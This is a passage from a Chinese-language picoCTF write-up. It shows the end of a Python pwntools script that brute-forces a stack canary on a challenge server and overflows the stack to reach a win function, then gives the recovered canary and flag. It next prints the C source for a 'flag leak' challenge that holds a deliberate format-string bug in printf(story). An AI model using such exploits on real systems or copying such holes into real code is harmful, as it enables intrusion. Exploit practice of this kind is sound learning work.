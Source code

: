 ```python
		io.sendlineafter(b'Input> ', get_payload(i, j))
		if b'***** Stack Smashing Detected *****' in io.recv():
			io = remote('saturn.picoctf.net', 60065)
		else:
			canary[j] = i
			break
	io = remote('saturn.picoctf.net', 60065)

canary_value = canary[0] + (canary[1] << 8) + (canary[2] << 16) + (canary[3] << 24)
io.sendlineafter(b'> ', str(64 + 4 + 16 + 4).encode())
io.sendlineafter(b'Input> ', cyclic(64) + p32(canary_value) + cyclic(16) + p32(0x8049336))

io.interactive()
```

canary的值为BiRd

picoCTF{Stat1C_c4n4r13s_4R3_b4D_f9792127}

## 9. flag leak

源码：
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
```